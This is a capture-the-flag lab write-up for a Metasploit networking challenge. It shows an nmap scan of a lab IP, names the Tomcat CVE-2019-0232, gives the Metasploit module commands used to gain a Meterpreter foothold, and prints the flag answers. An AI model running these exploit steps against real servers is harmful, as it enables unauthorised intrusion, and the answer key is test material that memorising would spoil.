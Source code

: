 ```yaml
---
description: Networking - Metasploit
---
```


# Ready, set, elf.

## Video

{% embed url="https://www.youtube.com/watch?v=6DOp2Fn1AsQ&feature=emb\_logo" %}

## Resources

`systeminfo`

[URL encoded](https://www.techopedia.com/definition/10346/url-encoding)

## Challenge

### What is the version number of the web server?

```text
nmap -Pn -sC -sV -O -v 10.10.198.75
```

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%2851%29.png)

{% hint style="success" %}
9.0.17
{% endhint %}

###  What CVE can be used to create a Meterpreter entry onto the machine? \(Format: CVE-XXXX-XXXX\)

![](../.gitbook/assets/image%20%2812%29.png)

![](../.gitbook/assets/image%20%2852%29.png)

{% hint style="success" %}
CVE-2019-0232
{% endhint %}

### Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

![](../.gitbook/assets/image%20%2832%29.png)

```text
msfconsole
search 2019-0232
use exploit/windows/http/tomcat_cgi_cmdlineargs
show targets
set TARGET 0
show options
set RHOST 10.10.198.75
set targeturi /cgi-bin/elfwhacker.bat
exploit
```

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

### What are the contents of flag1.txt

![](../.gitbook/assets/image%20%2870%29.png)

![](../.gitbook/assets/image%20%2838%29.png)

{% hint style="success" %}
thm{whacking\_all\_the\_elves}
{% endhint %}

### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

